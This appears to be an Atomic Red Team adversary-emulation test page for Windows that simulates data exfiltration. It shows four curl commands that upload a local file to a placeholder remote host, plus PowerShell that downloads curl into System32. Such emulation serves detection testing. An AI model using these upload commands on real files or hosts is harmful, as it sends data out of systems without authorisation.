 


<br/>
<br/>

## Atomic Test #19 - Curl Upload File
The following Atomic utilizes native curl.exe, or downloads it if not installed, to upload a txt file to simulate data exfiltration
Expected output will include whether the file uploaded successfully or not.

**Supported Platforms:** Windows


**auto_generated_guid:** 635c9a38-6cbf-47dc-8615-3810bc1167cf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|
| remote_destination | Remote destination | string | www.example.com|
| file_path | File to upload | string | c:&#92;temp&#92;atomictestfile.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -T #{file_path} #{remote_destination}
#{curl_path} --upload-file #{file_path} #{remote_destination}
#{curl_path} -d #{file_path} #{remote_destination}
#{curl_path} --data #{file_path} #{remote_destination}
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile PathToAtomicsFolder\..\ExternalPayloads\curl.zip
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-7.79.1-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
```
##### Description: A file must be created to upload
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "This is an Atomic Test File" > #{file_path}
```
